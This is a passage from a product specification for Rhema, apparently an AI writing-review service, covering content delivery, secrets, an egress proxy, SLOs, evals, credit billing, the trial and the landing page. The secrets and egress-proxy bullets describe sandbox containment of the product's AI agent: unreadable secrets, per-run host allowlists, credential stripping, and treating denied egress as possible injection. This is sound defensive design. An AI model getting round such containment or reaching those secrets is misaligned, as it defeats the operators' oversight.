> **`rhema.tools` apex**, the api **`api.rhema.tools`**, and the cookieless user-content origin
> **`usercontent.rhema.tools`** (+ `*.usercontent.rhema.tools` for per-workspace content hosts). The
> serving-side policy is unchanged — a distinct host + backend, `attachment`/`octet-stream` for
> non-allowlisted types, and **no Set-Cookie ever**. The *cookie-isolation* argument changes:
> "separate registrable domain" no longer applies, so auth/session cookies are emitted **host-only
> under a literal `__Host-` prefix** (Secure + Path=/ + no Domain attribute — enforced by the
> browser, and a same-named `Domain=rhema.tools` plant from any sibling subdomain is rejected).
> This is implemented and unit-asserted in `apps/api/src/auth.ts` / `auth.test.ts` (PRB.15).

> **⚑ Amendment — 2026-10-21 (R6UCD.1 / ADR-113): user-content delivery is API-minted GCS V4
> signed GETs, not edge-signed CDN URLs.** The §13.3 *serving contract* is unchanged — a private
> bucket, `attachment` + `application/octet-stream` for every non-allowlisted type, and **no
> cookie ever** — but the *delivery mechanism* is replaced: the Cloud CDN backend bucket +
> `usercontent.rhema.tools` edge-signing path never worked (the LB→bucket origin read was denied;
> the edge cannot sign for an origin it cannot read — live finding under `D-R5OPS.1-2`), and the
> operator ruled its repair out on 2026-10-20. The api now mints short-lived (≤ 5 min) **v4 signed
> GETs on `storage.googleapis.com`** after a tenant check (`GET /usercontent/sign` for
> tenant-declaring keys; the tenant-scoped row resolve for `ingest-originals/*` and other
> row-owned keys), with the serve contract bound into the signature itself via
> `response-content-type` + `response-content-disposition`. The `usercontent.*` CDN infrastructure
> is deployed but **inert** — nothing emits those URLs; removal is a separate cost/infra decision.
> Cookieless holds by construction: the minted URL lands on `storage.googleapis.com`, outside
> every `rhema.tools` cookie scope.
>
> **Checked as built — 2026-11-11 (205_R6REC.2 / REQ-TAIL-3):** the banner matches the shipped
> code — `mintUserContentUrl` + `userContentKeyOwner` + `USERCONTENT_URL_TTL_SECONDS = 300` live in
> `packages/contracts/src/upload.ts`; `GET /usercontent/sign` (`apps/api/src/usercontent-routes.ts`)
> mints only for tenant-declaring `quarantine/<workspaceId>/` and `converted/<workspaceId>/` keys;
> the row-owned `GET /voices/:id/samples/:itemId/raw` resolves under the session's RLS scope then
> 302s to the mint (`apps/api/src/ingest-routes.ts`); `USERCONTENT_RENDERED_TYPES` is the single
> allowlist and `apps/convert`'s `RENDERED_ALLOWLIST` re-derives from it; the two-tenant probe
> asserts a foreign-key mint never reaches the signer (`integration/src/two-tenant-probe.ts`,
> REQ-SPEC-30 invariant 13); `scripts/live/usercontent-cdn-verify.mjs` exercises the minted path
> (unauth mint → 401, unsigned object GET → 403, signed GET → 2xx with the §13.3 headers,
> tampered/expired → denied).
- **Tenancy** (REQ-ARCH-25/26/27; REQ-DATA-4 amended — the RLS rules are in §11.4): `tenant_id` on every tenant-owned table; `FORCE ROW LEVEL SECURITY` with `SET LOCAL` only; GCS object prefixes per tenant with per-task service-account scoping; single region (us-central1) at MVP; no residency promise (Q-12).
- **Backups and deletion** (REQ-ARCH-28): AlloyDB continuous backups (35 days) + GCS object versioning; project deletion = tombstone → 30-day purge → lifecycle delete; account deletion has a 14-day grace then hard-deletes content and PII, retaining anonymized ledger rows and the Stripe customer per tax law (REQ-ACCT-4).

> **⚑ Amendment — 2026-09-17 (companion to the §13.1 banner above): on prod the database backups are
> Cloud SQL's.** "AlloyDB continuous backups (35 days)" becomes, on prod, **Cloud SQL automated daily
> backups (35 retained) + point-in-time recovery** — with the honest caveat that Cloud SQL caps the
> PITR transaction-log window at **7 days** (the 35-day spirit survives as the retained-backup
> horizon; the recovery granularity is 7-day PITR + daily snapshots, not a 35-day continuous window).
> Retention still lives in the stage facts (`backupRetentionDays`). Dev's AlloyDB continuous backups
> are unchanged.
- **Retention** (REQ-ARCH-29): SDK transcripts 30 days; internal events 30 days; audit 90 days; usage records and credit ledger 7 years; restore points per plan.
- **Secrets** (REQ-ARCH-30 amended): provider keys only in `egress-proxy` (rotated; read at start and on SIGHUP); Stripe and Better Auth secrets in Secret Manager; **no secret is reachable from the model's process**: the run token and the per-run proxy credential are delivered to the `harness` uid via a file the `agent` uid cannot read, never as env vars to the SDK process (REQ-SPEC-10); no secret passed as an env var to `web` or `collab`; BYO keys (1.1) stored Cloud KMS-encrypted and presented at the proxy per run under the same per-run credential.
- **Egress proxy** (REQ-ARCH-31 amended; REQ-SPEC-11; ledger M10): a small TypeScript forward proxy (undici), not Envoy, because per-run policy needs a database lookup and body rewriting; forwards HTTPS to the **run's orchestrator-issued allowlist** (not a global one), presents the provider credential only for requests bearing a valid per-run proxy credential, strips any `Authorization`/`x-api-key` the sandbox sent, rewrites server-tool bodies to enforce the URL policy and the outbound-channel limits of §12.8, **meters every response's `usage` block into `usage_records{source:'proxy'}`, enforces the run cap with 402**, tags and logs every request (never bodies) as the fetch log of record, rejects other hosts or credential-less requests with 403 and `egress.denied`.
- **Protocol IP** (REQ-ARCH-33): skills, rubrics, calibration language and prompts live in `packages/protocols`, baked into the `run-task` image; no user event, API response or client bundle contains them.
- **Mobile** (§10.5): Keychain/Keystore sessions; biometric step-up; payloads without user text; no certificate pinning in MVP.

### 13.4 Export

Export is the only way out (Q-9) and must be complete. Formats: md, txt, html, docx, **rtf** (pandoc already produces it in the container; pulled into MVP — review 11 #31), pdf (Typst), LaTeX at MVP; odt, epub, Google Docs (docx → Drive `files.create` with conversion under the `drive.file` scope; deferred for the Drive OAuth consent-screen review cycle — departure D7, §16.1) 1.x. Footnotes become real docx/odt/LaTeX footnotes; `--citeproc` renders CSL (BSD engine; citeproc-js rejected on licence) with 5 styles at MVP, 10 at 1.x; figures per §7.5; the provenance appendix and the AI-use statement are optional attachments; Academic exports generate the disclosure statement (REQ-GENRE-5); Op-ed exports show the exclusivity reminder; Substack-flavoured md is a profile of the md export. Whole-account export produces a zip of every project in its on-disk layout (`manifest.md`, `drafts/`, `correspondence/`, `agents/author/*` — the user is the author; `agents/editor/*` excluded), every voice (`PERSONA.md`, `docs/`, `profile/` with the calibration report), samples as canonical markdown, and a ledger CSV; importing it into a fresh account reproduces every project and voice (REQ-ACCT-3, golden-tested on the three real projects).

### 13.5 Observability, SLOs, evals, playbooks

> **Amended 2026-09-30 (REQ-SPEC-29, ADR-016; REQ-GROWTH-1):** browser-journey acceptance runs on every user-surface Stage B and on a schedule against prod; `import_preview_p95_s` ≤ 20 (text formats) joins the SLO table. See the Appendix A.9 note.

OTel collector sidecars in `run-task`, `api` and `worker` → Google Cloud Operations (Cloud Trace / Cloud Logging / Cloud Monitoring); the SDK inherits OTel config with **all content flags off** (prompts, tool details, tool content, raw API bodies) so traces carry ids and counts only; W3C trace context propagated from the worker span so a run is one trace with phase and subagent spans. Product observability is our own tables (`run_events`, `run_steps`, `usage_records`) — the same data the user sees; a replay view reads the event chain and artifact diffs and never re-executes. Self-hosted Langfuse is the named upgrade.

| SLO | Target | Alert |
|---|---|---|
| Run start latency (queued → running) | p95 ≤ 45 s | p95 > 90 s for 10 min |
| Event delivery latency | p95 ≤ 2 s | > 5 s |
| Run success rate (excl. user cancels), weekly | ≥ 97% | < 95% daily |
| Gate resume latency | p95 ≤ 60 s | > 120 s |
| Autosave round-trip | p95 ≤ 500 ms | > 1 s |
| Import preview latency, text formats (md/txt/html/docx) — *added 2026-09-30, REQ-GROWTH-1 amended* | p95 ≤ 20 s | > 40 s for 30 min |
| API availability, monthly | 99.9% | error-budget burn > 2× |
| Orphaned runs · mirror errors · boundary violations | 0 | > 0 for 10 min · > 0 · > 0 |
| Egress denied | ≈ 0 | spike per run |
| Provider 429/5xx | < 1% | > 5% for 5 min → outage banner, launches paused ≤ 2 h |
| Cost drift vs provider report | < 2% | > 2% nightly |
| Proxy-metered vs SDK-reported cost per run | ± 2% | any run > 5% |
| Absorbed cap adjustments, 24 h | < X% of gross usage (X set from the reserve) | > X% → cap multiplier for new runs raised to 2× and page (circuit breaker, §14.4) |

**REQ-ARCH-34.** SLOs are reviewed weekly; a breach pauses feature work on that surface until the budget recovers. Performance budgets (ledger M7): the editor handles 20k-word drafts and 15k-word streaming without dropping below 60 fps on the paper; the feed virtualizes replay; dossiers with 200+ findings render the Margin as clusters and the Findings list as a virtualized triage queue (§5.7).

**Evals in CI** (G11): the three real projects and three voices become private `evals/fixtures/` pinning inputs, rigor, and expected outputs (verdict counts, finding counts by severity, rubric scores, word budgets, voice-feature counts); deterministic scorers first (verdict-distribution agreement, finding counts ± tolerance, rubric-cap consistency, word-budget delta, voice metrics, cited ⇒ fetched, attestation `violations = 0`, schema validity, markdown round-trip), LLM-judge scores only after the deterministic set is green; nightly golden runs of all workflows on the default tier (≈$150–300/night); per-PR smoke; a nightly score below a fixture's floor blocks promotion of protocols or engine changes. Every protocol runs each fixture plus one op-ed and one memo fixture. These evals compare Rhema to Rhema; the **comparative benchmark** — Rhema against a steelmanned frontier baseline, a generic iterative workflow, Grammarly-class tools and human editors, on gold-annotated drafts — is a separate standing program: **§18**. Its harness lives beside `evals/` and reuses this scorer framework (REQ-EVAL-20); a protocol version that regresses benchmark recall does not promote, extending this section's floor rule (REQ-EVAL-17).

**Playbooks:** provider outage (pause launches, banner, no auto-fail ≤2 h, queued runs keep holds); orphan storm after a deploy (raise reaper cadence; announce); cost anomaly (auto-lower `max_usd` for new runs; page); boundary violation (quarantine the run's artifacts from export, notify the user with the attestation, review); egress-denied spike (pause the run, inspect the audit, treat as a possible injection attempt).

---
## 14. Billing, usage, and pricing

### 14.1 The unit and the vocabulary

> **Amended 2026-09-30 (REQ-SPEC-32, ADR-014):** restated — committed debits equal the proxy-metered burn at the published rate, clamped at the cap; every price a user sees comes from the one calibrated estimator. See the Appendix A.9 note.

**1 credit = $0.01 of Rhema usage.** Usage = provider list cost of every token and search in a run, as metered at the proxy (§12.7), × the published **1.4 platform rate**, rounded up once per run; displayed as `1,240 credits ($12.40)` in usage surfaces, **dollars-first at every decision moment** — the run sheet's estimate line, the consent button, the approval card's remaining estimate ("≈ $5.60 · never more than $8.40", credits in the second line and tooltip) — and dollars-first on marketing pages (REQ-BILL-1 amended; review 12 #26; raw tokens never appear outside the Advanced disclosure). The dollar peg never changes; provider price changes propagate as versioned rate tables with 30 days' notice, and every usage record carries the version it was rated under (REQ-BILL-2). Vocabulary is **credits, cap, top-up, plan**; "overage", "on-demand", "ACU", "tokens" (outside Advanced) and "unlimited" are banned in user-facing strings (REQ-BILL-18; ledger D27). Rejected units: abstract credits (opacity → distrust), raw tokens (meaningless to writers), per-run flat prices (20× intra-workflow variance), zero-markup dollars (negative margin at full utilization).

### 14.2 The plan ladder (R6)

| | **Free** (trial window) | **Free** (after day 14) | **Writer** | **Studio** | **Studio Max** | **Team** |
|---|---|---|---|---|---|---|
| Price | $0, no card | $0 | **$20/mo** · $17 annual | **$100/mo** · $85 annual | **$200/mo** · $170 annual | **$40/seat/mo** |
| Included | **one Review ≤ 6,000 words, Standard, Base — on us** + a 150-credit pocket (chat, figures, Quick Voice, the first-section draft preview), expire day 14 | 10 credits/day, chat only, expire nightly | **2,000 credits/mo** | **12,000/mo** | **26,000/mo** | 4,000/seat, pooled |
| Rollover | — | — | 1 month; balance ≤ 2× monthly | 1 month; ≤ 2× | 1 month; ≤ 2× | 1 month; pooled |
| Model tiers | Base | Base (chat) | Base, Balanced; Frontier at 4.5× | all | all | all |
| Concurrent runs | 1 | 0 | 2 | 5 (priority queue) | 8 (priority queue) | 3/seat |
| Run word cap | 6,000 | — | none | none | none | none |
| Top-ups | no | no | yes | yes | yes | admin |
| Projects / voices | **3** / 1 (Quick Voice) | unlimited / 1 | unlimited | unlimited | unlimited | shared |
| Export | md, txt | md, txt | all | all | all | all |
| Sharing | — | — | read-only links | read-only links | read-only links | roles |
| What it covers | your first review, in full, of up to 6,000 words | reading, editing, inspecting, chatting | ≈3 essay loops on Base, ≈1.4 on Balanced | ≈1 academic loop on Frontier or 4 on Balanced | ≈1 long-paper Frontier loop | pooled |

Team is listed with its price and a waitlist CTA until sharing roles ship (REQ-GROWTH-7). "What it covers" rows are computed from the cost cards and regenerated from `pricing.json`, never hand-edited (REQ-GROWTH-4). Top-up packs (Writer and above): $10 → 1,000 · $50 → 5,250 · $200 → 22,000; 12-month expiry; drained after included credits. Annual saves 15% (REQ-GROWTH-8). BYO API keys arrive in 1.1 on paid plans at a 15% platform rate with no cap guarantee (Q-4).

Rationale for the names: "Pro" would collide three ways (a plan, a model tier, and the rigor notch users read as "professional"); "Max 5×/20×" multipliers would be false at 6× and 13×; "Writer / Studio" reads as a writing product and "Studio" carries the workshop-with-an-editorial-board image the landing sells. **Trial is a state** (`trialEndsAt`) of the Free plan, so the Free column is honest about what it does before and after day 14.

### 14.3 The trial: an entitlement, not a balance (R4 amended, R5, R16; REQ-SPEC-8)

> **Amended 2026-09-30 (REQ-SPEC-8, ADR-014):** interim terms while measured COGS exceeds this section's bound — still one **Standard** Review on Base, with its word cap derived from measured cost cards under a provisional $15-list absorbed ceiling per entitlement, plus a daily trial-COGS kill switch; these §14.3 terms return by configuration when the condition in the Appendix A.9 note is met.

The hero says "No card. Your first review is included." A 600-credit grant could not honour that sentence for the 4–8k-word drafts the modal upload brings (a 5k Standard review on Base is ≈ 560 credits and an 8k one ≈ 1,240, so a 600-credit balance either just fits with a consent second click or does not fit at all), so many trial users would have met the insufficient-balance panel on their first run (review 12 #8). The trial is therefore an **entitlement** plus a small pocket, and the landing copy and the mechanics are the same sentence.

| Parameter | Value | Reason |
|---|---|---|
| Window | 14 days of Writer-class features | reverse trial; the killer UI must be seen |
| **Entitlement** | **one Review of up to 6,000 words at Standard rigor on Base**, consumed by the first Review that fits; the sheet shows *Included* in place of the estimate box — no dollars, no cap arithmetic, no consent click | what the hero promises; Standard includes every claim checked, the discourse map and a same-tier second read — a full dossier |
| **Pocket** | 150 credits, one-time, expire day 14 | chat and Research bursts, figures, a Quick Voice, and the first-section draft preview (≈60) |
| COGS bound | ≈ $5.70 list at 6,000 words (≈ 790 credits at price); typical (3–5k) ≈ $2–4; the pocket ≤ $1.10 | the research/6 ≤$4 ceiling holds for typical drafts and is exceeded only near the word cap; the entitlement buys the activation moment (§16.4); the word cap is tuned from telemetry (REQ-PROD-16) |
| Model tier | Base only; Balanced/Frontier shown locked with prices | 4.5× cost containment |
| Rigor | Standard on the entitlement; Quick is offered as a cheaper second review from the pocket; **Full board is shown locked with its price** (R4 amended) | a bounded COGS needs one rigor; Quick alone would not be "your first review, in full" |
| Word cap per run | 6,000 (over-length drafts offer "review the first 6,000 words, or upgrade") | bounds the worst case |
| Draft | first section only (≈800 words, ≈60 credits from the pocket) | preview, not full |
| Voice | Quick Voice only | the most expensive, least visible run is deferred |
| Projects | **3** (review 12 #24) | the three entry points are the segmentation; a user with two pieces must not be blocked on day one; cost is bounded by the entitlement, not project count |
| Concurrency | 1 | fraud tripwire |
| After day 14 | Free: read, edit, import, export md/txt, inspect any artifact, chat on 10 credits/day (nightly expiry, research tools disabled, no runs) | loss aversion by capability, never by data; nothing is deleted |
| Card | never required to start; required to buy credits, subscribe, or run beyond the entitlement and pocket | free cannot buy overage without upgrading |

```
signup ──► trial_pending (entitlement + pocket locked) ──first Run click──► unlock check
                                   ┌── pass ──► trial_active (entitlement unused · pocket 150 cr · day 0..14)
                                   └── challenge ──► phone/OTP ──► trial_active | trial_denied
trial_active ──entitlement consumed──► trial_used (pocket still spendable; second review priced from the pocket or an upgrade)
trial_active | trial_used ──day 14──► free
any ──subscribe──► writer | studio | studio_max   (an unused entitlement converts to an 800-credit promo grant — its value at the word cap)
```

**REQ-SPEC-8.** The trial is a `TrialEntitlement {kind:'review', wordCap: 6000, rigor:'standard', modelTier:'base'}` plus a `trial_pocket` ledger bucket of 150 credits; a Review run within the entitlement's terms holds and debits against the entitlement (`Run.entitlementId`), never against credits, and the sheet, the run card and the run report say *Included*; the second click, the cap line and the balance line do not render on an entitlement run. **Verification is deferred to spend** (REQ-GROWTH-10): Google users are verified by OAuth; magic-link users by clicking the link. The unlock happens at the first cost-bearing action and runs a disposable-domain check, device/IP fingerprint and ASN scoring, and a one-trial-per-fingerprint rule; phone verification only above a risk threshold. **Abuse controls** (REQ-GROWTH-15 amended; ledger M20): identity before spend; Base-only, 1 concurrent, ≤6,000 words; trial runs on the cheapest research routing; a **global daily trial-spend ceiling** that pauses new trial unlocks automatically when crossed (review 13 F35), and a workspace-level kill switch that voids trial entitlements and pockets within 60 s; the eligibility rule stated in one line on the pricing page.

**Upgrade prompts** — all contextual, none modal-on-load (REQ-GROWTH-14): the estimate sheet on the *second* review; the end-of-review card ("Full board adds near-final line depth and a second reader from a different model family" — no "a third more findings" number until measured in-product); the day-12 email and card ("Your Writer features end in 2 days. Your projects stay."); locked controls in the sheet (Balanced/Frontier, Full board and >6,000-word runs visible with price and a lock; the only place a plan name appears in the IDE). Rejected: interstitials on project open, a persistent "Upgrade" nav button, export nags.

### 14.4 The estimate-and-cap contract

The run sheet (§5.6) is the single paywall and consent gate (REQ-GROWTH-13: exactly one `<Paywall>` mount; never mid-run, never on reading, editing, inspecting or exporting). Accounting:

| Event | Ledger | User sees |
|---|---|---|
| Run starts | `hold(cap)` | "holding 840" in the balance tooltip |
| Phase completes | `debit(actual_phase_cost)` against the hold | "spent 312 / cap 840" |
| Run ends under cap | `release(cap − actual)` | "cost 598 · 242 released" |
| Run exceeds cap (our error) | debits stop at cap; internal `adjustment(absorbed)` | "cost 840 (capped) — you were not charged for the overrun" |
| Run fails / is refused / cancelled by us | `refund(debited)`; hold released | "refunded 312 credits; partial results kept" |
| User stops mid-run | debit completed phases; release rest | "cost 312 for 3 completed phases" |
| Provider outage mid-run | phase retried from files; idempotent debits | "retrying phase 4" |

**REQ-BILL-3 (cap guarantee; amended).** `Σ debits for a run ≤ cap` is a database constraint trigger *and* an assertion that must never fire: the debit for a phase is computed as `min(actual, cap − Σ debits)` with the run row locked, the remainder is booked as `adjustment(absorbed)`, and the cap is enforced upstream at the proxy (REQ-SPEC-11). **AC:** a fault-injection test inflating provider usage 3× yields debits equal to the cap, an adjustment row, a 402 from the proxy, and a delivered dossier (the delivery transaction never rolls back on an accounting overflow — REQ-DATA-7). **REQ-BILL-4 (amended).** Consent above 500 credits, or above 200 credits *and* 25% of spendable balance; per-user override up to 1,000; never on an entitlement run. **REQ-BILL-5.** Every Advanced toggle shows a signed delta from the same estimator (**AC:** fact-check off on the 8k/45 golden draft changes ≈1,240 → ≈330 ± 10%). **REQ-BILL-6.** The run record freezes estimate, cap, rigor, model tier, phases, rate-table version, claim and word counts. **REQ-BILL-7.** The estimator re-fits weekly per workflow × rigor × model tier; the 1.5× multiplier holds until the trailing-30-day p95 actual/estimate < 1.3, then may drop to 1.35, never below 1.25; the variance reserve is reported internally.

**REQ-SPEC-24 (ledger integrity; review 13 F25/F30/F31/F35/F36/F37/F38/F39).** (1) `credit_balances` is a table maintained in the ledger's own transaction, never a materialized view; a nightly job asserts `balances = Σ ledger`. (2) Holds are placed under a row lock on the billing account so two concurrent sheets cannot both fit one balance. (3) A hold **pins a bucket** and extends that bucket's expiry by the held amount; a run parked across a cycle reset or a downgrade re-validates its plan entitlements and re-prices remaining phases at resume, opening a spend gate for any delta rather than debiting a bucket that no longer exists. (4) A parked run lives at most **30 days** anywhere, then auto-cancels with release and partials kept. (5) **Platform circuit breaker:** if Σ absorbed adjustments in 24 h exceed X% of gross usage, the cap multiplier for *new* runs rises to 2× (only the floor is constrained by REQ-BILL-7) and on-call is paged. (6) A refunded partial that is later resumed **re-debits the refunded phases first**; refunds are otherwise offered only on `failed` runs with no resume. (7) A chargeback suspends the account and claws back: queued and parked runs are cancelled with release; running phases finish (already COGS) but delivery is withheld until the balance is non-negative. (8) Stop-and-resume: the in-flight phase's tokens are COGS with no revenue; bounded per run and carried in the reserve.

Fairness rules (ledger L10): a Revise whose triage accepted only copy-edits is estimated at the lower cost class automatically; steering messages show their delta ("+≈ 15 credits") before send; completed-run refunds have a 7-day window, one per quarter without review.

### 14.5 Usage dashboard: four zoom levels, no token-soup

| Level | Surface | Question | Shows | Never shows |
|---|---|---|---|---|
| 0 | Balance chip (always visible) | "Can I afford the next run?" | spendable credits; held on hover; days to reset | anything else |
| 1 | Account `/app/usage` | "What did this month cost and where?" | period bars (included / top-up / held), totals in credits + $, by-project table, by-workflow donut, alerts, CSV | tokens, models, phases |
| 2 | Project `/p/:id/usage` | "What has this piece cost across rounds?" | runs list (cost/duration/status), cost by round, cost by seat (Drafter / Editor / Assistant / Persona builder / Rhema), per-project cap | tokens |
| 3 | Run report `/p/:id/r/:run#report` | "Why did this run cost what it cost?" | estimate vs actual, phase bars, seat split with subagent labels beneath each seat ("Editor › Second read"), **flags**, claims verified × cost per claim, suggested guidance | tokens by default |
| 4 | Phase × seat drill-down (inside 3) | "Which phase, which agent, which model?" | table phase × seat × model tier × credits × duration × searches × fetches; **Advanced** → tokens by kind and provider usage ids | prompts, private memory, transcripts |

**Flags** (computed server-side when a cause is ≥20% of cost or the run deviates ≥25% from estimate; one sentence each): `fact_check_dominated` ("Fact-check was 62% of this run: 71 claims verified"), `long_draft`, `discourse_map`, `second_read_model`, `over_estimate` ("Actual was 1.31× the estimate; the pre-pass found 21 claims but the reviewer verified 34"), `under_estimate`, `retries` ("Phase 4 was retried once after a provider error; you were not charged twice").

```
┌ Review v2 · Aug 26 · Base · Full board ─────────────────────────────────────────────┐
│ Cost 598 credits ($5.98)   Estimate 560   Cap 840   Released 242   Duration 41 min   │
│ Flags  [fact-check dominated 62% · 34 claims]  [over-estimate 1.07×]                 │
│ Phases                                              Seats                            │
│ Reading the piece  ▏   18                           Editor      ████████████  598     │
│ Checking claims    ████████████████  371              › Researcher   ██  64          │
│ Mapping the field  ████  92                           › Second read  ▏  22          │
│ Weighing / Reading ██  41 · ██  38                                                   │
│ Second read        ▏  22   (oracle: Balanced)                                        │
│ Letter + rubric    ▏  16                                                             │
│ What drove it   34 verified claims · Checking claims 371 (≈ 11 cr each marginal;   │
│                 ≈ 24 with the re-read context — `cost_per_verified_claim.review`) · … │
│ Next round      "12 findings were copy-edits; consider Quick rigor for v3."          │
│ ▸ Advanced  phase × seat × model · tokens · searches · provider usage IDs · rate table v7 │
└──────────────────────────────────────────────────────────────────────────────────────┘
```

**REQ-BILL-8.** The four levels are separate read models; `AccountUsage` and `ProjectUsage` have no `tokens` field; `RunReport.advanced` loads only on disclosure open. **REQ-BILL-9.** Flags are server-computed with templated sentences. **REQ-BILL-10.** No level exposes prompts, private memory, transcripts or source-note bodies. **REQ-BILL-11.** Levels 1–2 export CSV; Team invoices attach the ledger CSV. **REQ-BILL-12.** Levels 0–1 and the run-report header are available read-only on mobile. **REQ-BILL-13.** Nightly reconciliation against the provider Usage & Cost report with user-favourable-only adjustments and drift alerting (§12.7). The dashboard's read models (`UsageEvent`, `LedgerRow`, `Balance`, `EstimateRequest`/`Estimate`, `AccountUsage`, `ProjectUsage`, `RunSummary`, `RunReport`, `RunAdvanced`) are design/4 §6.3's, normative by reference (§0.1), with design/4's `QualityTier` renamed to `ModelTier = 'base'|'balanced'|'frontier'` and `Rigor = 'quick'|'standard'|'full_board'`. **Two per-claim constants exist and are named distinctly** (review 11 #18): `cost_per_verified_claim.review[tier]` ≈ 24 / 53 / 108 credits — Review's marginal cost per claim, which includes re-reading the dossier context — and `cost_per_verified_claim.fact_check[tier]` ≈ 11 / 26 / 51 — Fact-check's, with no dossier context; the run report's "what drove it" line and the FAQ each say which they quote.

### 14.6 Billing flows, limits, failure states

**Stack:** Stripe Billing (subscriptions, proration, annual), Checkout (card capture, top-ups), Customer Portal (plan changes, payment methods, invoices), Stripe Tax; credits in Rhema's Postgres ledger; webhooks verify → insert `stripe_events` (unique id) → enqueue → 200. **Subscribe:** Upgrade (sheet, plan page, trial banner) → `/plans` → Checkout → `checkout.session.completed` + `invoice.paid` → `grant(included, expires cycle_end + 1 month)` → return to where the user started, re-opening the estimate sheet with the same configuration if that is where they came from (REQ-BILL-14); an unspent trial pocket, and an unused entitlement (as 800 credits), convert to a `promo` grant when upgrading inside the window. **Change plan:** Portal with proration; downgrade at cycle end with a 7-day warning on balances above the new 2× cap. **Top-up:** in-app sheet → Checkout → `grant(topup, +12 months)`; first-month top-ups capped at $100 per new account; >$200/day requires 3DS. **Auto-reload:** opt-in only — "when my spendable balance falls below [500], buy the [$10] pack, up to [$50] per month" — the only way a card is charged without a click, bounded by the user-typed cap (REQ-BILL-17). **Cancel:** access to cycle end; top-ups keep their expiry and remain spendable (chat only on Free). **Rollover and expiry** (REQ-BILL-15): consumption order trial/daily → promo → rolled-over included → this cycle's included → top-up; included balance ≤ 2× monthly, excess expires at reset with a 7-day warning.

| Control | Default | Behaviour |
|---|---|---|
| Per-run cap | 1.5× estimate | hard; harness budget |
| Per-project monthly cap | none (admin-set on Team) | the sheet refuses runs whose cap would exceed it |
| Account monthly top-up cap | $0 (overage off) | auto-reload cannot exceed it |
| Soft alerts | 50 / 80 / 100% of included | in-app + email; 100% shows the "runs need credits" banner |
| Concurrency | per plan | extra runs queue with "starts when a slot frees" |
| Daily run ceiling | 40/account (Writer) | fraud tripwire only |
| Team per-member cap | admin-set | warning at ⅔, banner, blocked → request |

The three sentences the product may say when a run cannot start: "This run's cap (840) is more than your spendable balance (590)." · "Lower the rigor, switch to Base, or turn off fact-check to fit." · "Or add credits / upgrade." Never "you will be billed".

Failure states (REQ-BILL-16, each with an integration test): card declined (stay on Checkout); renewal failed (Smart Retries 7 days; banner; runs continue on remaining balance; no new grant; after 14 days → Free, data untouched); chargeback (suspend; clawback; queued/parked runs cancelled with release; running phases finish, delivery withheld until non-negative — REQ-SPEC-24); run failed / refused (refund; partials kept; provider text verbatim); **estimate service down → runs do not start** (the cap guarantee needs an estimate); provider outage mid-run (retry from files; >3 retries → fail + refund); rate-table change while parked (re-price at resume; spend gate for the delta); parked > 30 days (auto-cancel, release, partials kept); reconciliation drift (silent refund); webhook lag (Checkout success page polls ≤30 s then emails). `/pricing/rates` publishes current and previous rate tables with effective dates and the 1.4× rate; every run report links to its version (REQ-BILL-19).

### 14.7 Settings and account

Navigation: **Account** · **Preferences** · **Notifications** · **Integrations** · **Billing** · **Data** · **Team** (hidden until roles ship); full-page, single 640-px column, dark shell, `⌘,`. **Account:** name, byline (default voice byline), email (magic-link change), avatar, sign-in methods, active sessions with revoke (shared with mobile), delete account. **Preferences:** default model tier (Base / Balanced / Frontier with the one-line "when"; Balanced on paid, Base on Free), default rigor per workflow (Standard), per-project overrides winning over account defaults, confirmation threshold (max 1,000), approval policy default, editor (paper theme, font preset, size stepper); no raw model names in this section. **Notifications:** the §5.11 matrix per event type with the two non-configurable rows enforced (REQ-ACCT-1); quiet hours for push. **Integrations** (REQ-ACCT-2): Substack (public archive + export zip; never cookies), Medium, Google Drive (`drive.file`, export only); one card component with connect / status / items / disconnect; disconnect removes tokens immediately and keeps ingested samples unless the user also removes them; each card states what Rhema reads and never does ("We never post to your Substack"). **Billing:** plan card, credits by bucket with expiries and rollover projection, top-up packs, auto-reload, caps, invoices. **Data** (Q-12, minimal): *Export everything* (§13.4 zip; emailed link, 7-day expiry); *Delete account* (typed confirmation; 14-day grace; REQ-ACCT-4); privacy toggles "Exclude my usage from product analytics" and "Allow Rhema staff to view my projects for support (per request, 72 h)", both default off; the training posture and the residual-risk sentence as static text ("Rhema does not train models on your content. Model providers process it under their commercial API terms: [list]. During a review the Editor searches the web to check your claims; Rhema limits and monitors what those searches can carry, but a search query is text that leaves Rhema." — §12.8); no DPA or SOC 2 badge at MVP, one line "Enterprise? Ask us about a DPA".

---

## 15. Landing page, onboarding, and growth

> **ADR-129 (2026-11-08, 253_R7REC.1 banner — decision 225_R7KIT.2, 2026-11-05):** the round-7
> component stack applies to this chapter's surfaces — Radix per-package primitives
> (`@radix-ui/react-*`, no meta-package), `lucide-react`, `cmdk` for Combobox and palette, an
> in-house SplitPane (R7PANE.1's choice under the REQ-KIT-5 budget rule), and the generated
> `uiCss()`/`uiTailCss()` stylesheets in `@rhema/ui`; the no-raw-controls rule (REQ-GUARD-1)
> and the per-ticket entry-delta allowance apply. REQ-PUB-2's landing refresh (249a_R7PUB.1)
> landed under this stack, incl. the hero-recording slot (ADR-127 asset entry).

### 15.1 Landing page

One long dark-default page with a real light theme, serif display type on a warm near-black ground (`#141311`–`#1a1917`, text `#e8e4dc`), one accent, the app's token set (REQ-GROWTH-2), and a **drop-zone hero** backed by a looping real-product recording of a dossier opening with anchored findings. Eleven of twelve surveyed landings are light-default; dark is a differentiator (Q-14), and serif display reads as "the written word", which no coding-agent page uses. Rejected: a pricing-first page with no proof; a sales-led "Get a demo" page; a prompt-box hero with no narrative sections.

```
┌──────────────────────────────────────────────────────────────────────────────┐
│  Rhema        Product  Workflows  Pricing  Changelog  Docs     Sign in  [Get Rhema free] │
├──────────────────────────────────────────────────────────────────────────────┤
│   An editorial board for                 ┌───────────────────────────────┐   │
│   everything you write.                  │  ▶ looping recording (12 s):  │   │
│   (serif display, 64–88 px)              │  dossier opens; findings fly  │   │
│   Every claim checked against sources    │  to quoted passages; a claim  │   │
│   actually fetched. An independent       │  verdict expands to its URL   │   │
│   second read. Revisions that keep       └───────────────────────────────┘   │
│   your voice.                                                               │
│   ┌ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ┐                                      │
│      Drop a draft (.md .docx .pdf)                                          │
│   │  or paste text — get a full review│   ← drop-zone, dashed               │
│   └ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ─ ┘                                      │
│   [ Start from scratch ]  [ Upload an outline ]                             │
│   No card. Your first review is included.                                   │
└──────────────────────────────────────────────────────────────────────────────┘
```

